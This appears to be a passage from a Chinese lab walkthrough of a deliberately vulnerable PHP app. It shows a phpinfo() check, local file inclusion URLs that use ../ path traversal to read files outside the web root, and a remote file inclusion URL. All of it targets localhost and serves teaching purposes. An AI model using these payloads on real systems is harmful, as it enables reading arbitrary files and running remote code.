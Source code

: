 

当然也是可以

```
phpinfo();
```



## File Inclusion

### File Inclusion(Local)

新建一个文件在fileinclude文件下，可以进行包含，当然也是可以包含其他文件的，乃至电脑上的任意文件

```
http://127.0.0.1/vul/fileinclude/fi_local.php?filename=../1.txt&submit=提交
```

在网站根目录之外一层新建一个flag.txt文件，也是可以进行包含的

```
http://127.0.0.1/vul/fileinclude/fi_local.php?filename=../../../../../flag.txt&submit=提交
```

![image-20250112185913086](../../_media/image-20250112185913086.png)



### File Inclusion(remote)

远程包含，可以包含远程服务器上的文件也可以直接访问网页

```
http://127.0.0.1/vul/fileinclude/fi_remote.php?filename=http://www.baidu.com&submit=提交
```

![image-20250112190022205](../../_media/image-20250112190022205.png)
